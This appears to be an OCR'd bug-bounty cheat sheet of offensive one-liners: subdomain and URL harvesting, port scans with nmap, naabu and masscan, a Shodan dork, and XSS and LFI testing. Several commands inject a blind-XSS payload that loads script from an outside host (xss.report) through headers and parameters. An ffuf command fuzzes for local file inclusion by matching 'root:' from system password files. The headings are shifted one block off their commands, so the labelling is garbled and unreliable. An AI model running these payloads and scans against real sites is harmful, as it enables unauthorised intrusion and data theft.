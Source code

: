 ```
```
# For finding CORS
```
subfinder -d example.com | gau | bxss -payload ''><script src=https://xss.report/c/coffinxp></script>' -header 'X-Forwarded-For'
```
# For testing header based blind xss
```
echo 'example.com ' | gau | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln
```
# For checking single xss on all urls
```
subfinder -d example.com | gau | grep '&' | bxss -appendMode -payload ''><script src=https://xss.report/c/coffinxp></script>' -parameters
```
# For finding Blind xss
```
echo domain | gau | grep -Eo '(\/[^\/]+)\.(php|asp|aspx|jsp|jsf|cfm|pl|perl|cgi|htm|html)$' | httpx -status-code -mc 200 -content-type | grep -E 'text/html|application/xhtml+xml'
```
# Content-type Filter - part 1
```
Ssl.cert.subject.CN:'example.com' 200
```
# Shodan dork
```
echo https://example.com/ | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt
```
# XSS method - part 1
```
cat xss_output.txt | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > final.txt
```
# XSS method - part 2
```
naabu -list ip.txt -c 50 -nmap-cli 'nmap -sV -SC' -o naabu-full.txt
```
# Naabu scan
```
nmap -p- --min-rate 1000 -T4 -A target.com -oA fullscan
```
# Nmap scan
```
masscan -p0-65535 target.com --rate 100000 -oG masscan-results.txt
```
# Masscan
```
ffuf -request lfi -request-proto https -w /root/wordlists/offensive\ payloads/LFI\ payload.txt -c -mr 'root:'
```